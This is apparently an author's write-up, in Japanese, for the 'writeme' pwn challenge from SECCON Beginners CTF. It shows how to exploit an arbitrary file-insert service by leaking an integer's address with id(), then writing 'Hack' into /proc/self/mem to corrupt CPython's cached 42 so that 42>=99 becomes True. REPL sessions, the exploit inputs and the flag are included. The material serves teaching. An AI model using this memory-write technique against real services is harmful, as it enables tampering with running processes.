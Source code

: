 # writeme

## 問題文
writeme.  
(A little pwn)  
`nc writeme.quals.beginners.seccon.jp 27182`  
[writeme.tar.gz](files/writeme.tar.gz) 6fed82490d18ce779247e47a6d89efb2e52e753c  

## 難易度
**Medium**  

## 作問にあたって
CPythonの整数がキャッシュされることを知って思いついた問題です。  
/proc/self/memを書き換えるのはreadmeリスペクト。  
writeme.は実は正規表現でwrite`mem`を示しています(白目)。  
論理の飛躍もなく、作問者の中でも解けている人がいたので難易度は許容範囲だと思っています(Hardには少し弱い気がしました)。  

## 解法
ソースを読むと、存在するファイルに文字列`Hack`を挿入できるサービスが動いている。  
最初にChanceと称するevalがあるが`42=99`などはできないので後々使うことを考えておく。  
方針としてflagファイルに文字列を挿入し読み取る、もしくは`42>=99`をTrueとすることを目指す。  
flagファイルに文字列を挿入するのは、ファイル名がチェックされており難しそうであるので後者のアプローチを考える(Congrats!とかあるし)。  
任意のファイルに文字列挿入ができるので、`/proc/self/mem`を書き換え可能であり、場所は不明だが数値42もしくは99のオブジェクトの中身を破壊してやると`42>=99`がTrueとなると予測できる。  
ここでCPythonは32バイトずつ数値オブジェクトを順にキャッシュしていることを思い出す。  
Chanceの5文字のevalで行えることはidくらいしかないことから、それを用いることを思考の始まりとしても上記のアプローチに落ち着くと思われる。  
id(1)により無事に数値1のアドレスがリークできるので、id(1)+41*32で書き換える先のid(42)を求める。  
実際32バイトは以下のように求めることができる。  
```python
>>> int(id(2))-int(id(1))
32
>>> (int(id(42))-int(id(1)))/41
32.0
```
ちなみに大きいものはそうでもない。  
```python
>>> (int(id(124))-int(id(123)))
32
>>> (int(id(1235))-int(id(1234)))
-67072224
```
seekで先ほどリークしたアドレス分スキップすることで数値42を改造できる。  
```python
>>> fd = open("/proc/self/mem", "rb")
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00*\x00\x00\x00\x00\x00\x00\x00'
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00+\x00\x00\x00\x00\x00\x00\x00'
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00,\x00\x00\x00\x00\x00\x00\x00'
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00-\x00\x00\x00\x00\x00\x00\x00'
>>> ord("*")
42
>>> ord("+")
43
>>> ord(",")
44
>>> ord("-")
45
```
どうやら25バイト目に数値本体が入っているようだ。  
ここを破壊してやれば`42>=99`をTrueにすることができそうだ。  
```python
>>> fd = open("/proc/self/mem", "rb+")
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00*\x00\x00\x00\x00\x00\x00\x00'
>>> fd.seek(int(id(42))+24)
10915832
>>> fd.write(b"A")
1
>>> fd.flush()
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00A\x00\x00\x00\x00\x00\x00\x00'
>>> 42
65
>>> chr(65)
'A'
```
+24seekすればよい。  
挿入される文字列が`Hack`であるため、99より大きくなる。  
```python
>>> fd = open("/proc/self/mem", "rb+")
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00*\x00\x00\x00\x00\x00\x00\x00'
>>> fd.seek(int(id(42))+24)
10915832
>>> fd.write(b"Hack")
4
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00Hack\x00\x00\x00\x00'
>>> fd.flush()
>>> 42
1801675080
>>> hex(1801675080)
'0x6b636148'
>>> hex(ord("H"))
'0x48'
>>> hex(ord("a"))
'0x61'
>>> hex(ord("c"))
'0x63'
>>> hex(ord("k"))
'0x6b'
>>> 42>=99
True
```
よって解法は以下の入力になる。  
```text
id(1)
/proc/self/mem
id(1)の結果 + 41*32 + 24
```
solverを書いてやればよい。  
```bash
$ python solver.py
140601518577968
140601518579304
ctf4b{r36ul4r_3xpr35510n_f0r_4ny_51n6l3_ch4r4c73r}
```

## ctf4b{r36ul4r_3xpr35510n_f0r_4ny_51n6l3_ch4r4c73r}
